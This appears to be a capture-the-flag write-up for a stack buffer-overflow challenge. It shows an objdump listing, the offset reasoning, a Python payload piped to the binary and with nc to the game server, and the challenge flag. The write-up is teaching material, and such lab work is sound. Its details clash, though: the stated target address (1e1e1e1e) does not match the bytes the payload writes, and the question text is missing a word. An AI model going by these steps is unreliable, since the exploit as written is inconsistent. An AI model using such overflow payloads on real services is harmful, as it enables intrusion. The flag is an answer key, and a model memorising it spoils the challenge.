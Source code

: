 # Party Invitation

## Question Text

There's an awesome that's going to go down next week. 

Created by Noans

## Distribution
AwesomeParty `SHA1: 1da2366a0e70a9a5158b4606e96c1c4ad5cbb8c9`

## Solution
1. Do an objdump on `AwesomeParty` with the command `objdump -d AwesomeParty`.
2. The following parts of from the `objdump` should be studied:  
```
00000000004005c6 <check>:
4005c6:	55                   	push   %rbp
4005c7:	48 89 e5             	mov    %rsp,%rbp
4005ca:	48 83 ec 20          	sub    $0x20,%rsp
4005ce:	48 8d 45 e0          	lea    -0x20(%rbp),%rax
4005d2:	48 89 c6             	mov    %rax,%rsi
4005d5:	bf 78 06 40 00       	mov    $0x400678,%edi
4005da:	b8 00 00 00 00       	mov    $0x0,%eax
4005df:	e8 cc fe ff ff       	callq  400470 <__isoc99_scanf@plt>
4005e4:	bf 7b 06 40 00       	mov    $0x40067b,%edi
4005e9:	e8 a2 fe ff ff       	callq  400450 <puts@plt>
4005ee:	90                   	nop
4005ef:	c9                   	leaveq
4005f0:	c3                   	retq
```
3. The third line tells us 32 bytes is reserved for a variable.
4. Derive that one needs to override 32 bytes + rbp (8 bytes) to overwrite return address.
5. Also derive address of `awesome` function is `1e1e1e1e`.

Final command to exploit local program assuming machine uses little-endian:  
`python -c 'print "a" * 40 + "\x1a\x1b\x1c\x1d"' | ./AwesomeParty`

In order to get the flag, players have to pipe the output to the game server:  
`python -c 'print "a" * 40 + "\x1a\x1b\x1c\x1d"' | nc pwn.chal.gryphonctf.com 18153`

## Flag
`GCTF{4W3S0M3_L177L3_P4R7Y}`

## Recommended Reads
* https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/
* https://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64